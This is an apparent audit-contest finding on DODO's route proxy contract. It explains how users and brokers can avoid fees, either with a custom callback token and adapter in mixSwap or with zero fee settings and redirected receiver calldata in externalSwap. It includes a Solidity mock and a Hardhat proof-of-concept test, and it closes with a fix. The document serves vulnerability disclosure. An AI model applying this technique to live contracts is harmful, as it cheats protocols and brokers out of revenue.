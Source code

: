 hansfriese

medium

# Users and brokers can use the protocol without paying fees

## Summary

Users and brokers can use the protocol without paying fees

## Vulnerability Detail

The protocol charges fees in the `_routeWithdraw` function and the fee is decided according to the `receiveAmount`.

1. Mix Swap and DODO Mutli Swap
   For simplicity, let us see `mixSwap`.
   A caller is free in selection of `assetTo, mixAdapters, mixPairs` as long as the array lengths match and there are no additional checks.
   So one can create a custom ERC20 token with callback (e.g. `beforeTransfer`) and also a custom simple adapter (with `WETH` and the custom ERC token as base/quote token for example).
   Then he creates a custom contract for the custom token and in the `beforeTransfer` callback he can put custom logic to send a very small amount back to the sender.
   Now if he calls `mixSwap` with his contract address as the last element of `assetTo` (also custom adapter/pair properly and `minReturnAmount=1` or whatever very small), the protocol will process the other swaps normally and finally sends the funds to the custom contract and then the protocol will get very little amount back.
   So the `receiveAmount` becomes very small. Because the fees are calculated by `floor` operations, the protocol will get no fees.

2. External Swap
   A user can call `externalSwap` with arbitrary parameters including `minReturnAmount`, `feeData` and `callDataConcat`.
   Note that for the `externalSwap`, the protocol does not check if `minReturnAmount` is zero.
   And of course the user can set `feeRate` of the `feeData` parameter to zero.
   Now for the `callDataConcat`, one can use any kind of function signature supported by the `swapTarget` and most of the swap protocols expose a function that has a `receiver` parameter.
   One might argue that it is not reasonable because `swapTarget` is an approved one but most of the swap protocols expose this kind of function so it is still worthwhile to explore.
   Below is an example for [1inch](https://github.com/1inch/liquidity-protocol/blob/7ee3f0e88b45bb83ce3981cbe6bad87a4fc13423/contracts/Mooniswap.sol#L255).

   ```solidity
   function swapFor(IERC20 src, IERC20 dst, uint256 amount, uint256 minReturn, address referral, address payable receiver) public payable nonReentrant whenNotShutdown returns(uint256 result) {
       ...
       (confirmed, result, virtualBalances) = _doTransfers(src, dst, amount, minReturn, receiver, balances, fees);
       ...
   }
   ```

   So with a proper call data, a user can directly get the swap result and the protocol can not charge any fees because the `receiveAmount` (DODORouteProxy.sol#L220) is zero.

   A test (with 1inch in mind) is given below.

   ```solidity
   // mocks/MockAdapter.sol
   contract MockAdapter is IDODOAdapter{
        ...

        // https://github.com/1inch/liquidity-protocol/blob/7ee3f0e88b45bb83ce3981cbe6bad87a4fc13423/contracts/Mooniswap.sol#L255
        function swapFor(IERC20 srcToken, IERC20 dstToken, uint256 amount, uint256 minReturn, address referral, address payable receiver) public payable returns(uint256 result) {
            uint256 outAmount = DecimalMath.mulFloor(amount, price); // just a PoC
            dstToken.transfer(receiver, outAmount);
        }
        ...
    }
   ```

   ```ts
   // integration/DODORouteProxy.test.ts
   it("external swap without paying fee", async () => {
     // set approve white list and swap white list
     await dodoRouteProxy.connect(alice).addWhiteList(mockAdapter.address)
     await dodoRouteProxy.connect(alice).addApproveWhiteList(mockAdapter.address)

     let abiCoder = new ethers.utils.AbiCoder()
     let feeData = await abiCoder.encode(["address", "uint256"], [brokerAddr, "0"]) // no broker fees

     let ABI = [
       "function swapFor(address src, address dst, uint256 amount, uint256 minReturn, address referral, address payable receiver)"
     ]
     let itf = new ethers.utils.Interface(ABI)
     let callData = itf.encodeFunctionData("swapFor", [
       token1.address,
       token2.address,
       BIG_NUMBER_1E18.mul(1).toString(),
       0,
       ethers.constants.AddressZero, // no referral
       bobAddr // receiver address
     ])

     let beforeBob = await token2.balanceOf(bobAddr)
     let previousProtocol = await token2.balanceOf(proxy1Addr)
     let previousBroker = await token2.balanceOf(brokerAddr)

     await dodoRouteProxy.connect(bob).externalSwap(
       token1.address,
       token2.address,
       mockAdapter.address,
       mockAdapter.address,
       BIG_NUMBER_1E18.mul(1).toString(),
       "0", // minimum return 0
       feeData,
       callData,
       "99999999999"
     )
     let afterBob = await token2.balanceOf(bobAddr)
     let afterProtocol = await token2.balanceOf(proxy1Addr)
     let afterBroker = await token2.balanceOf(brokerAddr)
     console.log("Bob token2 balance before/after", etherToNumber(beforeBob), etherToNumber(afterBob)) // 100 101
     console.log("Protocol fee", afterProtocol - previousProtocol) // 0
     console.log("Broker fee", afterBroker - previousBroker) // 0
   })
   ```

## Impact

Users and brokers can use the protocol without paying fees and it will affect the protocol's business model.

## Code Snippet

https://github.com/sherlock-audit/2022-11-dodo-jalil1992/blob/e9f14080451a149465f000a3450d916feb6b982d/contracts/SmartRoute/DODORouteProxy.sol#L479
https://github.com/sherlock-audit/2022-11-dodo-jalil1992/blob/e9f14080451a149465f000a3450d916feb6b982d/contracts/SmartRoute/DODORouteProxy.sol#L203
https://github.com/sherlock-audit/2022-11-dodo-jalil1992/blob/e9f14080451a149465f000a3450d916feb6b982d/contracts/SmartRoute/DODORouteProxy.sol#L238
https://github.com/sherlock-audit/2022-11-dodo-jalil1992/blob/e9f14080451a149465f000a3450d916feb6b982d/contracts/SmartRoute/DODORouteProxy.sol#L323

## Tool used

Hardhat

## Recommendation

I recommend charging route fees at the deposit step.